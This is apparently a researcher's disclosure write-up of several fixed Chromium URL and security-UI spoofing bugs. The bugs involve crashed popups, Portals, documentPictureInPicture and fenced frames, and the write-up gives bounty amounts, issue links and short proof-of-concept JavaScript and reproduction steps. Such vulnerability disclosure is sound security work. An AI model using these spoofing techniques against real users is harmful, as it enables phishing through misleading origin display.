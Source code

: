 ```yaml
---
title: URL Spoof (Fixed)
---
```


# Navigating a crashed page

By crashing a cross-origin pop-up then navigating it to `data:html,foo` which gets blocked, The URL would stay cross-site but the page would be same-origin
[Issue 40054631](https://issues.chromium.org/issues/40054631) was duplicate but made a good twitter background.

Later there was a ghost image issue where the page stayed cross-origin but the contents of the previous page showed [Issue 40057561](https://issues.chromium.org/issues/40057561) was awarded $1000

I also tried the same thing with portals [Issue 40064170](https://issues.chromium.org/40064170) and it worked was awarded $2000. [video PoC](https://www.youtube.com/watch?v=yy7dR88RIHw)

```js
// --enable-features=Portals,PortalsCrossOrigin
// onclick is optional
onclick = () => {
  portal = document.createElement('portal');
  // Victim page crashs
  portal.src = 'https://ndev.tk/crashself.html';
  document.body.appendChild(portal);
  setTimeout(() => {
    // HTTP STATUS 204
    portal.src = 'https://terjanq.me/xss.php?status=204';
    portal.activate();
  }, 6000);
};
```

These attacks where migrated by needing to crash cross-site, however [Issue 40054631](https://issues.chromium.org/issues/40054631) had a way to do it similar to the [crossOriginIsolated bypass](https://ndevtk.github.io/writeups/2021/12/30/crossoriginisolated-bypass/) and any extension can crash any tab [Issue 40848497](https://issues.chromium.org/issues/40848497)

# Spoofing documentPictureInPicture

Did not update security UI on `about:blank` navigations so any window reference allowed for a spoof. [video PoC](https://www.youtube.com/watch?v=yiAr4J-e6P8)

- Enable feature `chrome://flags/#document-picture-in-picture-api` (in Origin Trial)
- On victim page do `documentPictureInPicture.requestWindow();`
- Victim PiP opens popup to attacker page like `open('https://example.org', '', 'popup=1');`
- On attacker page run `opener.location = 'about:blank';` and notice security UI did not update.
- On attacker page run `opener.document.write('foo');`

This was awarded $1000 and fixed in [Issue 40062959](https://issues.chromium.org/40062959) by ensuring subsequent about:blank loads close the PiP window.
First patch was bypassable by using the extension `chrome.tabs.discard()` API. [video PoC](https://www.youtube.com/watch?v=yH-Cd0wWJEU).

When using fenced frames `documentPictureInPicture` would display the top-page origin not the embed.

```js
f = document.createElement('fencedframe');
f.src =
  'https://terjanq.me/xss.php?h[Supports-Loading-Mode]=fenced-frame&js=onclick=()=>documentPictureInPicture.requestWindow();';
document.body.appendChild(f);
```

This was awarded $4000 and fixed in [Issue 40062954](https://issues.chromium.org/40062954) [Issue 40063068](https://issues.chromium.org/40063068) by making it so non-topmost frames can't open PiP.
